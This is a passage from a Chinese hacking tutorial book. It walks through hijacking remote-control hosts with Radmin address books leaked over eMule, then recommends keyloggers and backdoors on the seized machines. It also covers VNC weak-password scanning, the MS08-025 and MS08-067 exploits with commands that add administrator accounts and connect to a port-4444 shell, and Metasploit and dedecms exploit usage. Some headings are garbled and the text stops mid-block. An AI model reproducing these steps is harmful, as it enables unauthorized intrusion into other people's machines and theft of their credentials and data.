我们先来谈一下 radmin，它是一款远程控制软件。就目前来看，仍然有许多的人在使用它，包括管理一些服务器。Radmin 比较受欢迎的主要原因是：运行速度快，支持被控端以服务的方式运行，支持多个连接和 IP 过滤（即允许特定的 IP 控制远程机器），支持远程关机等。在安全方面，它支持 Windows nt/2000 用户级安全特性，可以将远程控制的权限授予特定的用户或者组。Radmin 提供加密的工作模式，所有的数据（包括屏幕影像、鼠标和键盘的移动）都使用 128 位强加密算法加密。服务器端会将所有操作写进日志文件，以便于事后查询，服务端有 IP 过滤表，对 IP 过滤表外的控制请求将不予回应。radmin 目前支持 TCP/IP 协议，应用十分广泛。

在了解了 radmin 这么多特性之后，我们觉得仍然有可乘之机。如果被控端没有设置复杂的密码，我们就可以轻易地连接上去。除此之外，radmin 还有一个很重要的文件，那就是 Radmin.rpb。

在安装 radmin 3.0 及后续版本后，只要使用过 radmin 客户端，radmin 控制端就会自动在系统中生成一个唯一的 radmin.rpb 文件。而我们只要找到 radmin.rpb 文件，然后导入到我们的控制端就可以控制别人了。其他的利用方法还是前面提到过的，就是对 4899（radmin 默认端口）进行弱口令扫描。下面我们就来看一下我的好友 simeon 写的这篇关于用电驴抓鸡的文章吧。

#### 《我用“电驴”抓肉鸡》

我用“电驴”抓肉鸡？难道是放一个“电驴”在路上，等“火鸡”过来，一不小心踩在“电驴”上结果给烫熟了，就成了“肉鸡”？很多朋友说抓肉鸡很难，找好肉鸡更难！其实也不然，关键就在于敢动脑子。没有做不到的事情，只有想不到的事情，“人有多大胆，地有多大产”！闲话少说，且写正传！

##### 一、抓肉鸡工具

工欲善其事，必先利其器，今天我们抓肉鸡主要使用以下几样工具：

- 1. eMule，俗称“电驴”，跟 FlashGet、迅雷、bt 等为同类软件，其最大特点是搜索方便。本文用到的地方就是其搜索功能和下载功能。
- 2. Radmin 客户端，是用来连接服务器端实施控制的工具。在 Radmin 中只需要导入 Radmin 地址簿，并输入正确的口令即可对肉鸡进行控制。

##### 二、搜索 Radmin.rpb 文件

### 1、什么是 Radmin.rpb 文件

在安装 Radmin 3.0 及其后续版本后，只要使用过 Radmin 客户端，Radmin 控制端就会自动在系统中生成一个唯一的 Radmin.rpb 文件，如图105，其文件路径为：`C:\Documents and Settings\Administrator\Application Data\Radmin`。


注意：系统“Application Data”目录默认情况为隐藏，如果想要查看，必须在资源管理器的“工具”——“文件夹选项”中设置“显示系统受保护文件”以及“显示所有文件以及文件夹”。

如果各位黑友在“工作”过程中，“偶然”发现有这个文件，哈哈，恭喜你运气很好啊，**Radmin.rpb 文件主要包含 IP 地址以及端口号**，通常我们使用 Radmin 远程控制软件，一般都有保留肉鸡 IP 以及口令在客户端上的习惯，试想，如果您有很多很多肉鸡，每一次都查找或者通过记忆来选择，是非常麻烦的，而且不可能一下子全记住。

### 2、搜索 Radmin.rpb 文件

eMule（电驴）用户共享文件夹来实行下载积分，共享得越多，贡献值就越多，下载速度也就越快。很多用户在使用时，一不小心将不该共享的文件夹给共享了，这就给我们通过电驴来搜索相关配置文件提供了方便。

使用“电驴”搜索 Radmin.rpb 文件时，必须要求能够连接上 eMule 服务器。默认情况下，运行 eMule 程序后大概几十秒就会自动连接上 eMule 服务器，然后我们在 eMule 中使用“搜索”功能，在“名字”中输入“radmin.rpb”、“.rpb”、“rpb”等关键字，在“搜索结果”中去查找包含“radmin.rpb”字样的条目即可，如图106，双击后就可以进行下载了。

### 3、等待 Radmin.rpb 文件

啊啊，等待“Radmin.rpb”文件是一个既痛苦又快乐的过程，有时候运气好，一会儿就会下载到本地，毕竟 Radmin.rpb 这个文件不会太大，一般几K到几十K大小，当然越大越好。

eMule 下载文件时，如果没有指定下载文件的目录，则默认下载到 eMule 安装程序下面的“Incoming”文件夹中。我们可以通过 **“共享文件”－“下载的文件”** 查看文件是否已经成功下载，如图107。

##### 三、导入 Radmin.rpb 文件到 Radmin 客户端

运行 Radmin 客户端程序，选择“工具”－“导入地址簿”，从 eMule 的下载目录中将本例中下载的“radmin3phonebook.rpb”文件导入 Radmin，如图108、图109。


图109

导入成功后可以看到很多乱码，这些乱码主要是因为系统设置的语言不一样，可以不用管。接着通过 Radmin 的“查找”看看主机是否在线，依次查看其中的肉鸡，如果肉鸡是连通的，就用该肉鸡 IP 后面括号中的字符串（口令）进行测试。呵呵，找到了不少肉鸡哦，如图110。


图110

##### 四、实施控制

实施控制部分，很多朋友都懂，但是笔者还是想说几句。连上去以后不要急于安装其他马儿，如果搞得太匆忙，容易水土不服而夭折。可以参考的做法是先看看情况，装一个键盘嗅探器，分析下计算机的主人都干些什么，安全感强不强。当然，先装一个后门也不是不可以，万一丢了不是很可惜吗？在确认没有什么“危险”时，就可以进行装后门、挂马、渗透控制等操作了。

##### 五、结束语

为了阐述其过程，笔者啰嗦了半天，本质上非常简单，没有什么技术，就是找到 radmin.rpb，然后导入 Radmin 客户端，通过用户自己保留的口令进行测试。通过这种方法获取的肉鸡质量比较高，口令一般都不会……是弱口令，因此一旦成功控制以后，一定要小心，然后才能有较大的收获。

笔者通过这个方法进行扩展，曾经一下子控制了几个服务器集群。本文主要想告诉大家，在黑客技术中，网络安全和网络攻防都是相对的，成功地攻破一个网络有时候也有偶然的机会，关键就是思维的创新。

怎么样，是不是觉得很新奇呢？不过这种方法对于弱口令扫描4899，成功率不太高，这里有一个专门过滤4899空口令的工具，如图111。

填好要扫描的IP后，点击“开始搜索”，搜索完后再点击“导出空密码主机”。现在已经很少有人不设置密码了，即使有这样的机器我们也很难碰到。所以说，这样的攻击方法没有多大效率。

接下来我们再看下VNC的弱口令攻击，首先还是来了解一下吧。**VNC（Virtual Network Computing）是虚拟网络计算机的缩写，该程序是一款优秀的远程控制工具，在Windows、Unix以及Linux下的适应性很强，其默认的端口是5900。**

VNC基本上是由两部分组成的：一部分是客户端的应用程序（VNCviewer），另外一部分是服务器端的应用程序（VNCserver）。正因为如此，如果没有配置好，即使用了空口令这样简单的密码，就会招来灭顶之灾。

扫描VNC弱口令的工具主要是VNC.exe，这里有一款工具叫“领域小组专版VNC扫描器.exe”，已经完全不需要我们再输入一些复杂的命令了。打开界面后，我们只需要在“开始IP”和“结束IP”处填入扫描的范围即可，如图112。


输入完毕后单击“扫描”便可以看到有一个黑糊糊的窗口弹出来，表示程序在进行扫描了，如图113。之后的事情当然是等待了。扫描之后，打开VNC_bypauth.txt，即可看到扫描结果，如图114。


到了这里你会看到，其实并没有一些口令和密码的相关记录。是的，这个扫描器只是简单地扫描到一些可以连接的情况以及是否可以登录。在这个文件里我们主要看两种提示：

- 一是patched，表示匹配、可以连接，但需要密码，不过我们还有一款软件可以远程破解；
- 二是VULNERABLE，这个表示是有漏洞，说不定就是一个不需要密码就能直接连接的机器。

我们先找一个VULNERABLE的，在这个结果记事本里点击菜单“编辑”-“查找”，在“查找”框中输入“VULNERABLE”，然后点击“查找下一个”，如图115。

然后把找到的IP和端口用VNCLink.exe连上去试试，如图116。

我们看到这是一台Windows Server 2003服务器，右键点击最上面的边框传送Ctrl+Alt+Del，可惜管理员锁屏了。那么我们继续寻找，终于找到了一台空口令的VNC主机直接连上去了，如图117。

这种情况是很少的，可能要扫描一大段IP才可能有那么一、两台，甚至没有。接下来我们再来看远程暴力猜解，说实话，远程暴力猜解的效率也不高，这里用到的工具是VNCX4，而且还要看自己的字典是否强大。


图116


图117

```bash
vncx4
Usage:
  Online: ./vnccrack -h target.host.com -w wordlist.txt [-opt's]
  Windows interactive mode: ./vnccrack -W
  ...
```

图118

使用VNCX4也很简单，输入程序名就会提示怎么使用，但通常只使用-w这个参数，如图118。至于破解是否成功就不得而知了，不过我们要知道还有一种这样的工具。

好了，这一小节就到这里了，这一章节也就讲完了。在这一章节里，我们接触到了各种各样的弱口令攻击范例。就攻击者而言，任何一种信息都是值得探究、值得深入去思考的。而对于那些安全管理人员来说，小的错误就可以带来不堪设想的后果。有时候即使是遇到了弱口令，情况可能都会与平常不一样，那么你会怎么做呢？

还有，就本章而言，其技术含量不言而喻，是非常低的，也是一些刚接触这一行的菜鸟们做的事情。当然，攻击的手法远远不止这些，看完了这一章，你有何感想？那么，接下来的几章中我们将谈一谈其它攻击技术并深入研究其细节。

## 研究所剖析（标题模糊）

| 内容 |
|---|
| （表格内容模糊，无法完整辨识） |

### “本日值日生”

## 屋利的渣生态志


## 笔记003档案：犀利的溢出攻击

从计算机开始发展以来，无论是广泛使用的Windows系统还是独树一帜的*nix平台，溢出几乎是伴随着一起走到了今天。而现在最让微软感到人心惶惶的莫过于大规模的暴发蠕虫病毒，这种蠕虫病毒的暴发始于一些漏洞的发现以及被攻击者的利用。就像刚刚过去的MS08-067一样，那是网络管理员的噩梦，是攻击者的诸多念想。

那么，我们先来了解一下什么叫做溢出？溢出，通俗地讲就是意外数据的重新写入。我们来打个比方：一桶水如果装满了，再往里面装水的话，水就会溢出来了，这与程序的溢出有异曲同工之妙。

不过，这和我们遇到的溢出有一点区别，那就是攻击者可以控制溢出的代码。如果程序的对象是内核级别的，如我们平常所知的一些dll、sys文件等，当黑客发现这类文件有溢出问题的话，就可以直接操纵系统内核了。当然，操纵你的机器就不在话下了。

说到这里，就要涉及到溢出的分类问题了。像常见的IIS溢出、SQL溢出等，就是按对象名称加以区分。如果是按照溢出的特点来区分，我们可以分为两大类：一是远程溢出，二是本地溢出。

当然了，在本书里面，我们不需要对这些分类加以文字性的理解，只需要知道这些溢出是如何使用的，这些溢出工具的成功使用需要哪些条件等。溢出攻击的犀利性、严重性导致了在网络迅速发展的今天，对网络安全必然是一个严峻的挑战。

下面我们就来一起揭开溢出的神秘面纱。不过在看溢出的具体案例前，我们有必要了解一下两种溢出类型的基本原理：一是内存溢出；二是缓冲区溢出。

### 3.1 内存溢出

内存溢出一直是一个比较棘手的问题，而导致内存溢出的原因也很多，如使用了不可靠的方式存取/复制内存缓冲区，或者是编辑设置的内存缓冲区太靠近关键数据结构等。

通常我们编程用到的语言有C或者C++，而这两种语言有一个缺陷——那就是不检查数组边界，也不检查数据类型的可靠性。最重要的是C/C++语言开发出来的程序由于目标代码非常接近机器内核，因而能够直接访问内存和寄存器，这种特性大大提高了C/C++语言代码的性能。只要合理编码，C/C++应用程序在执行次序上必然优先于其它高级语言。然而，正是因为这种特性的存在，一旦出现问题后果将是十分严重的。

我们来看一个例子，相关代码如下：

```c
void CopyData(char *szData) {
    char cDest[32];
    strcpy(cDest, szData);
    // 处理 cDest
}
```

一般我们在使用的时候不会发现这段代码有哪里不太对劲，可是攻击者却不这样认为，在他们眼中，一切可以利用的地方都是一个新的切入点。我们在调用的时候都以为（其实那是我们一厢情愿的想法）用户输入的长度不会大于32个字节，如下面这个例子：

```c
char *szNames[] = {"Michael", "Cheryl", "Blake"};
CopyData(szNames[i]);
```

数组中的“Michael”“Cheryl”“Blake”等都是字符串常量，长度也不会超过32个字符，因此不会出现问题。可是，如果CopyData的唯一参数szData来自socket套接字，或者文件等其它不可靠的数据源时，问题就变得不再这么简单了。

由于strcpy并不在乎数据源，只要没遇上空字符，它就会一个字符一个字符地复制szData的内容。此时，复制到cDest的字符串就有可能超过32个字符，进而导致内存缓冲区cDest的溢出。溢出的字符就会取代内存缓冲区后面的数据。

不幸的是，CopyData函数的返回地址也在其中！于是，当CopyData函数调用完毕以后，程序就会转入攻击者给出的“返回地址”，接着攻击者便会在接下来的代码中安排一些具有攻击性的，或者本身不是程序所需要的代码。这样，内存溢出很自然地发生了。

当然了，也不是没有方法来防范这类问题的发生。因此，在写一个程序的时候，我们首先要考虑到的应该是态度问题，即代码的严谨性。比如知道内存缓冲区的总长度，检验内存缓冲区等，这些措施都是很有效果的。

### 3.2 缓冲区溢出

除了上面的内存溢出外，缓冲区溢出也是一个很大的方面。缓冲区是用户为程序运行时在计算机中申请的一段连续的内存，它保存了给定类型的数据。

> 缓冲区溢出指的是一种常见且危害很大的攻击手段，通过向程序的缓冲区写入超出其长度的内容，造成缓冲区的溢出，从而破坏程序的堆栈，使程序转而执行其它的命令，以达到攻击的目的。

更为严重的是，缓冲区溢出攻击占了远程网络攻击的绝大多数，这种攻击可以使得一个匿名的Internet用户有机会获得一台主机的部分或全部控制权！由于这类攻击使任何人都有可能取得主机的控制权，所以它代表了一类极其严重的安全威胁。

接下来，就让我们以实例来看一下这些溢出攻击的效果吧。

#### 3.2.1 本地溢出

说到本地溢出，无论何时，这个都是攻击者在弄到相关用户名密码以及shell后，最容易拿出来提升权限的工具。说到这里，就不得不谈到关于在*nix下的提权问题，基本上都属于这一种类别。

我们拿08025来做一个本地溢出的实例说明吧。说到这里，有些人不太明白08025是什么意思。其实很简单，每年微软都会发布大量的补丁，而08025则表示是2008年发布的第25个补丁。

我们首先来看一下微软对这个漏洞的描述：

> 此安全更新解决Windows内核中一个秘密报告的漏洞。成功利用此漏洞的本地攻击者可以完全控制受影响的系统。攻击者可随后安装程序、查看、更改或删除数据，或者创建新账户。

作为一个关注这方面的攻击者来说，他们仅仅关心的是一个可以利用的exploit。当然了，如果是一个狂热的技术爱好者，那么具体的漏洞细节就是他们感兴趣的地方。下面，就以我的一篇文章来为大家演示一下MS08-025的威力吧。具体涉及到哪些文件以及出在什么问题上我就不分析了（我也不会分析，嘿嘿），而且它的影响范围还挺广的，我们最关心的就是如何利用它了。

我就拿我的虚拟机来做实验吧，虚拟机中安装的是WIN2K3系统，什么补丁都没有打过，先找到溢出程序所在的目录，我的是在c:\windows\temp下。然后在CMD窗口中使用命令切换到这个目录，如图1。

再输入命令`net user`看下这台机器上的用户有哪些，如图2。

```text
ms08025
"net user test test /add"
```


图1

添加一个用户名为`test`、密码为`test`的用户，如图3。而且上面提示的也很清楚，“命令成功完成”，这时我们再用`net user`命令查看一下用户，如图4。

可以看到`test`用户已经产生，现在我们进一步把该用户提升成管理员权限，命令为：`ms08025 "net localgroup administrators test /add"`，查看用户权限如图5。

不过，有点让人遗憾的是我在webshell上用nc反弹一个shell回来，然后本地提升权限的时候却没有成功。

这是一篇简单的ms08025利用文章，有一点不得不提醒大家：虽然溢出攻击很厉害，可是需要前提条件，如果你在一台打了补丁的机器上运行溢出程序，那么无疑是白费功夫了。而且这条原则是对所有的溢出攻击一样，不同的溢出程序所需要的环境是不一样的，这个在后面会提到的。从文章中我们也可以清楚地看到，在环境许可的情况下，获取权限是多么地轻而易举，对于攻击者而言，并不需要去苦心研究一个个的系统文件。

不过本地溢出非常有局限性，就是只能局限于在本地使用，不能远程攻击。虽说如此，本地溢出也是非常受攻击者关注的一块。


#### 3.2.2 远程溢出

远程溢出其实是相对于上面说到的本地溢出的，它有一个好处就是不用先得到目标机器上的shell或者部分权限。我们可以直接在本机上运行攻击代码，攻击那些没有打补丁，或者符合攻击条件的机器。

而正是因为这种恐怖之处，所以每到一些比较重要的漏洞发布时间时也就成了大规模蠕虫等病毒暴发之际！因此我们还是有必要为大家演示一下这些远程溢出程序的利用。

这里就拿MS08-067来为大家演示（貌似08年漏洞不少），先看一下微软对这个漏洞的描述：

> 如果用户在受影响的系统上收到特制的RPC请求，则该漏洞可能允许远程执行代码。在Microsoft Windows 2000、Windows XP和Windows Server 2003系统上，攻击者可能未经身份验证即可利用此漏洞运行任意代码。此漏洞可能用于进行蠕虫攻击。

为什么我们要看一下漏洞的描述？因为从微软给出的解释来看，受影响的系统包括2000、XP、2003，而且是特制的RPC请求。说到RPC大家想到了什么？我们还是先来看一下RPC是什么吧。

**RPC为英文remote procedure call protocol，即远程过程调用协议的缩写**，它是一种进程间通信（IPC）方法，客户端和服务器可使用这种方法来进行相互之间的通信。简单点说，RPC可被程序（通常是客户端计算机上的程序）用来执行服务器上的程序，并且RPC服务涉及到两个重要的端口，那就是135和445端口。

说到这里，大家是不是明白了些什么？看过漏洞描述之后，我们清楚地发现，如果目标机器没有对外开放135或445端口，并且有防火墙拦截的话，那么我们对其进行溢出攻击是不会成功的。下面我们就来看一下MS08-067的使用方法。

基于以上的分析，为了提高成功率，当然是用扫描工具（这里大家随便选择了，如s.exe、sfind.exe等都可以）先扫描上面说到的135或者445端口。这里以445端口为例，我使用的是sfind.exe，输入命令：

```bash
sfind -p 445 218.99.0.1 218.99.0.255
```

意思是扫描218.99.0.1至218.99.0.255范围内开放了445端口的机器，扫描结果如图6。

接下来便是对其进行溢出攻击了，这个溢出使用的命令也很简单，直接输入：`ms08067 ip`这种形式即可，如果成功的话，便会返回如图7所示的信息。

这个时候虽然溢出工具提示了溢出成功，但正如前面所分析的，如果对方装了防火墙（因为溢出成功后会在目标机器开一个4444的端口）进行拦截，最后是否能获取权限也是一个未知数。不过，我们还是用NC连接一下试试（其实用系统本身自带的命令`telnet ip 4444`也是可以的），一切顺利的话，会返回如图8所示的信息。

如果出现连不上的情况，连接的时候会返回类似如下的信息：

```bash
nc -vv x.x.27.71 4444
Warning: forward host lookup failed for 71.27.22.218.broad
static.hf.ah.cndata.com.: h_errno 11002: TRY_AGAIN
71.27.22.218.broad.static.hf.ah.cndata.com [x.x.27.71] 4444 (?): TIMEDOUT
sent 0, rcvd 0: NOTSOCK
```


反弹回来了一个系统权限的SHELL，这样我们就可以在这个SHELL里面操纵对方了，比如加用户什么的，这就要看攻击者的意图了。

怎么样，远程溢出攻击比本地溢出攻击有意思多了吧？大家不要看我举的例子是那么地轻松，其实在实际环境中测试时，我也是费了好大的劲才找到一个合适的例子的。因为实际的网络环境我们是不可预知的，也就是说出现的问题我们可能是无法解决的。所以，大家在碰到一些怪问题的时候，要仔细思考才能有所悟，这样才有所得。

看着这样一个个的溢出，勤于思考的读者可能会想到，这样太不方便了，有没有集成的工具包或者在线溢出什么的能方便大家呢？答案是：有的！接下来我们就来一起接触metasploit工具吧。


### 3.2.3 metasploit工具的使用

Metasploit目前已经升级到3.2版了，其强大的功能深受一些网络安全爱好者的喜爱。它是一个老牌工具，强大的开源平台可供开发、测试和使用恶意代码。这种可扩展的模型将负载控制、编码器、无操作生成器和漏洞融合在一起，使得metasploit framework成为一种研究高危漏洞的途径。它自带上百种漏洞，还可以在online exploit building demo看到如何生成漏洞。下面我们就一起来看下强大的metasploit工具吧。

Metasploit 3.2以前版本是基于命令行下的控制使用，而在新发布的版本中已经可以使用GUI界面实行操作了。该工具可以在官方下载，地址为：http://spool.metasploit.com/releases/framework-3.2.exe。安装就不必说了，和我们平常装的程序没有什么两样，完全趋于傻瓜化。除了GUI界面的操作外，metasploit把以前基于命令行下的操作都集成到了基于网页的操作了。

安装好后，我们依次打开“开始”->“所有程序”->“metasploit3”->“metasploit 3 web”，接下来便是启动画面了，如图9。

启动过程完毕以后，便会自动打开URL：http://127.0.0.1:55555/，如图10。

我们看到的是默认界面，如果你不太喜欢这种类型的界面，可以在“options”里自由选择，如图11，我换成了……这种鲜明一点的颜色了。


图11

接下来点开“exploits”，如图12，可以清晰地看到一共有320个可以利用的例子。你可以从顶部的 search 框对相关关键字进行搜索，以便最快地找到所需要的 exploit。从用过的效果来看，很人性化（从没有搜索按键就可以看出来吧！），你只需要输入一个“w”就会把所有符合“w”的选项都列出来，不需要按任何键就可以搜索哦，如图13。


图12

图13

看到这些结果后，我们可以直接对其进行攻击操作。如我们双击其中的一条“apache win32 chunked encoding”，便会弹出如图14所示的操作框。从给出的信息提示来看，它是要我们选择目标，这个得看具体环境的应用。如果不太确定，可以选择“windows generic bruteforce”，点击后便来到了如图15所示的画面了。到了这个界面是要我们选择合适的 shellcode 了。这里提到 shellcode，有人就不太明白，我们来解释一下什么是 shellcode。

> 简单点讲，shellcode 实际上是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限。通常情况下，shellcode 是作为数据发送给受攻击服务器的。

有了这个，我们这里就选择“windows/exec”，如图16。


图14

图15


图16


图17

从右边的描述来看，“execute an arbitrary command”其实是“执行任意命令”，选择后就来到了如图17的界面。

看到红色显眼的字眼了吗？required 则为必填的内容。

- Rhost 为目标机器的 IP；
- Rport 则为目标机器的端口号，默认的是 80 端口；
- CMD 则表示要执行的命令，如“cmd /c net user test test /add”。

其他的选择默认即可。没有标明 required 的表示可选填内容，最后点击“launch exploit”便开始执行溢出攻击的代码了，如图18。


图18


图19

从图18中我们可以明显地看到，程序正在自动判断目标机器的相关程序版本号。很显然，要程序自己去判断攻击版本是比较耗时的，但也是攻击者无法准确判断时的最好选择。经过一段时间的等待，返回了判断结果，如图19。

很显然，从得到的反馈信息来看，溢出攻击结束了，但没有成功。一次溢出攻击就这样完成了，很简单吧？而其他主要选项“exploits”“auxiliaries”“payloads”的操作过程都差不多，我这里就不演示了。

下面主要来了解一下“console”，意为“控制台”。点击一下便进入了一个类似我们平常操作 cmd 窗口的界面，如图20。

来到这里会感觉到无从下手，我们输入“？”后便可以得到在这个界面下可以用到的命令，如图21。

看到了这么多的命令是不是有点晕？比起 cmd 下的参数，这个数目一点都不大，而经常用到的参数仅仅是“set”“show”“info”“use”这四个。

还是拿刚才的那个例子示范一下，如果要查看有哪些 exploits 和哪些 shellcode 可以选择，我们分别输入命令：**show exploits** 和 **show payloads** 即可，如图22、图23。


图20

```text
>> ?

Core Commands
=============

Command      Description
-------      -----------
?            Help menu
back         Move back from the current context
banner       Display an awesome metasploit banner
cd           Change the current working directory
exit         Exit the console
help         Help menu
info         Displays information about one or more module
irb          Drop into irb scripting mode
jobs         Displays and manages jobs
load         Load a framework plugin
loadpath     Searches for and loads modules from a path
quit         Exit the console
resource     Run the commands stored in a file
route        Route traffic through a session
save         Saves the active datastore
search       Searches module names and descriptions
sessions     Dump session listings and display information about sessions
set          Sets a variable to a value
setg         Sets a global variable to a value
show         Displays modules of a given type, or all modules
sleep        Do nothing for the specified number of seconds
unload       Unload a framework plugin
unset        Unsets one or more variables
unsetg       Unsets one or more global variables
use          Selects a module by name
version      Show the console library version number

msf >
```

图21

```text
>> show exploits

Exploits
========

Name                                  Description
----                                  -----------
bsd/finger/morris_cmd                 ...
freebsd/cvs/cvsd_scramble_heap        ...
hpux/lpd/vulnproc_exec                HP-UX LPD Command Execution
irix/lpd/tagprinter_exec              IRIX LPD tagprinter Command Execution
linux/games/ut2004_secure             Unreal Tournament 2004 "secure" Overflow (Linux)
linux/http/gpsd_format_string         Berlios gpsd Format String Vulnerability
linux/http/linksys_apply_cgi          Linksys apply.cgi Buffer Overflow
linux/http/perforce_bui               Perforce < 0.1216 URL Handling Buffer Overflow
linux/ids/snort_drpc                  Snort Back Orifice Pre-Processor Remote Exploit
linux/imap/imap_uw_lsub               UW IMAP server LSUB Buffer Overflow
linux/misc/samdfifd_glibc             ...
linux/misc/glib_postfix               GLD (Greylisting Daemon) Postfix Buffer Overflow
linux/misc/ib_jrd8_create_database    Borland InterBase jrd8_create_database() Buffer Overflow
...
```

图22

```text
windows/wins/ms04_045_wins                     Microsoft WINS Service Memory Overwrite

>> show payloads

Payloads
========

Name                              Description
----                              -----------
aix/ppc/shell_bind_tcp            AIX Command Shell, Bind TCP Inline
aix/ppc/shell_find_port           AIX Command Shell, Find Port Inline
aix/ppc/shell_reverse_tcp         AIX Command Shell, Reverse TCP Inline
aix/ppc64/shell_bind_tcp          AIX Command Shell, Bind TCP Inline
aix/ppc64/shell_find_port         AIX Command Shell, Find Port Inline
aix/ppc64/shell_reverse_tcp       AIX Command Shell, Reverse TCP Inline
bsd/sparc/shell_bind_tcp          BSD Command Shell, Bind TCP Inline
bsd/sparc/shell_reverse_tcp       BSD Command Shell, Reverse TCP Inline
bsd/x86/exec                      BSD Execute Command
bsd/x86/exec/bind_tcp             BSD Execute Command, Bind TCP Stager
bsd/x86/exec/find_tag             BSD Execute Command, Find Tag Stager
bsd/x86/exec/reverse_tcp          BSD Execute Command, Reverse TCP Stager
bsd/x86/shell_bind_tcp            BSD Command Shell, Bind TCP Stager
bsd/x86/shell_find_tag            BSD Command Shell, Find Tag Stager
bsd/x86/shell_reverse_tcp         BSD Command Shell, Reverse TCP Stager
...
```

图23

注意了哦，在这个界面下操作的命令是区分大小写的，也就是说 show 和 sHow 代表了两个不同的单词，如果输入成 sHow，那么程序会返回错误信息的。接着我们选择 exploit，这里可以输入：`use 程序名`，如：`use windows/ftp/servu_mdtm`，如图24，便切换到这个 exploit 程序了。


那么如何使用这个 exploit 呢？接下来就要用到命令 `info` 了，如：`info windows/ftp/servu_mdtm`，我们就会看到这个溢出程序的使用方法和相关信息，如图25。

到了这一步，可没有上面操作界面那么显眼的提示了，不过还是可以看到 required 选项。如何把这些设置出来呢？这里就得用 set 命令了。如我们要设置目标机器的 IP，命令便为：`set rhost IP`，如：`set rhost 127.0.0.1`。端口号也是这样设置的哦，不过默认为 21。

在开始溢出前，我们还是要选择 shellcode 的，仍然以前面的 windows/exec 为例，不过攻击的命令是这样输入的：`set CMD /c net user test test /add`，如图26。

一切就绪就可以准备溢出攻击了，这时输入 `exploit` 便开始了，如图27。


怎么样，晕了吗？呵呵，如果你英文不太好，思维又不太清楚的话，那么还是来看一下 GUI 界面的操作平台吧。点击“开始”->“所有程序”->“Metasploit 3”->“Metasploit 3 GUI”，这个程序的启动也是要等待一下，启动好后界面如图28。

从图中可以看到这个 GUI 界面真的比较方便操作，而且分类很明确，如展开“exploits”就可以看到哪些是基于哪种类型的 exploit 了，如图29。这里我就不继续演示了，操作真的很简单，大家可以自己摸索下。说了这么多，足以见识这个工具的强大之处了，我们再也不需要在自己的硬盘里翻溢出程序了，而且也不需要去 Google 找好几年前的 exploit 了，因为这里面的东西已经很全了。如果大家觉得下载这个东西很麻烦，完全可以到 http://metasploit.com:55555 去进行在线演示，设置的步骤也是和本地差不多的。


图28


图29

## 3.3 exploit杂谈

为什么要写这一小节呢？我们首先还是来看一下 exploit 的汉语意思吧。Exploit 的汉语意思有好几个，但对于玩安全的朋友来说，它的意思就只有“利用”这一项了。而现在的 exploit 不仅仅指基于 C/C++ 等高级语言编写的可利用程序，凡是可以利用的文件或者程序代码都可以被叫做 exploit 了。我们到 http://www.milw0rm.com/ 的“web apps”就可以看到好多“exploit”的字眼，如图30。


图30

随便打开一看，发现这个 exploit 是用 PHP 脚本语言写的，如图31。这里为什么知道是用 PHP 语言写的呢？因为每一种语言都有特定标记，请看图31，开头有“<?php”的字样，这就是一种标识符。


图31

图32

图33

那么这些 exploit 的使用环境是什么样的呢？这就是本小节要谈到的内容。在不同的环境下，不同的 exploit 的使用就不同。就拿上面的例子来说，如果要使用这个 exploit，那么我们就要有一个 PHP 环境，这个环境怎么得到呢？我们可以下载 PHP 语言包安装上就行了。至于使用的方法，我相信每一个 exploit 都会给出一些示例的。

这里只有示范一下在 PHP 环境中如何使用 exploit，我利用 dedecms 的一个 exploit 作为范本，在命令行下切换到 exploit 所在的目录，如图32。

接下来输入命令：`php dede.php` 就可以看到使用方法了。这里的 dede.php 是指溢出攻击代码，如图33。这样基于 Web 环境下的 exploit 其实威力也蛮大的，这种程序大大简化了一些繁杂的操作，从而给攻击者节省了不少的时间。用其他语言编写的 exploit 也是同样的道理，如 Python、Perl 等语言编写的代码，需要的只是变通而已。

好了，这一章就讲到这里了，如果你要认真分析 exploit 是如何写的，还是有一定难度的，而且需要会一些编程语言或者脚本类的知识。能发现漏洞是一回事，但写出来可就是另外一回事了。

不过话说回来，作为大多数的攻击者，他们一般不必去了解这其中的奥秘，只不过拿来用即可。回过头来看你会发现，这一节里面大多涉及到了好多英文，英文基础比较差的朋友看起来或者使用工具时感觉可能比较费力。

这里让大家了解一下这方面的知识是对后面的内容作铺垫，这一章也是比较重要的，一旦涉及到大型内网渗透的时候，exploit 就会大显神威了。好了，大家仔细体会吧，下章会更精彩。

## 课后思考（小节标题）

|  |  |  |  |
|---|---|---|---|
| （表格内容在图中较淡，无法完整辨识） |  |  |  |

## “本日恒生”

流行的 Web 入侵方式

第140页

## 笔记004档案：流行的Web入侵方式

看完前面的三章，是不是觉得依然没有什么头绪？依然觉得离那个世界很远呢？回过头好好想想，前面讲的东西差不多都没有涉及到特别深的知识。这里我要强调一下，并不是要把知识讲得有多深就有多高明，一些技巧、一些不经意的知识点，就是智慧的体现。不过，本书的重点来了，笔记004档案是本书最为重要的章节，自然，篇幅也是本书中最多的一个章节。

在本章中，我就要为大家讲到一些现行流行的 Web 入侵方式。说句实话，虽然弱口令和溢出攻击还是存在，但是真正利用它们去攻击一台机器，成功率不太乐观。因此，在 Web 盛行的今天，利用 Web 方式入侵的方法层出不穷，而且蛮多的攻击方法和巧妙的渗透经验都是现在一些脚本小子，甚至大多数菜鸟所追寻的目标。工欲善其事，必先利其器！那我们在学习这些知识之前，有必要来了解一些基本的东西，如脚本工具的使用，远控的使用等。

### 4.1 初窥脚本工具

谈到 Web 入侵方式，就不得不涉及到三个方面：注入、数据库、目录，而这三方面就包含了许多的工具。注入盛行的今天，工具比比皆是，而针对数据库的工具，大家已经从第二章里了解到了一些。针对目录的扫描器也有很多，一般用来扫描管理后台的目录或者敏感文件，从而提供给攻击者很有价值的信息。

虽然说可以按这三个方面来分析，但也有专门的扫描或注入工具，当然也有综合这三方面的工具，我们还是从最简单的谈起吧。

#### 4.1.1 扫描工具

谈到扫描端口的工具，这里就不得不提到 nmap 了。早期的 nmap 工具是基于 linux、freebsd、unix 的网络扫描嗅探工具包，其基本功能有三个：一是探测一组主机是否在线；二是扫描主机端口，嗅探所提供的网络服务；三是可以推断主机所用的操作系统。

因为一直是基于 *nix 下的扫描工具，所以命令比较繁杂，不过现在已经有 Windows 版了，如果你不习惯命令行则可以选择使用 GUI 界面的版本，如图1。

如果只是做简单的端口扫描，我们保持默认就可以了，不需要做什么改动。这里有一点要提醒大家，扫描域名和域名对应的 IP 可以有不一样的结果！因为有时候一个域名可能对应着多个 IP。运行 GUI 界面的 zenmap，直接在“target”处填入“www.baidu.com”，接下来单击“scan”就开始进行扫描了，大家看一下扫描的结果，信息如下：

```text
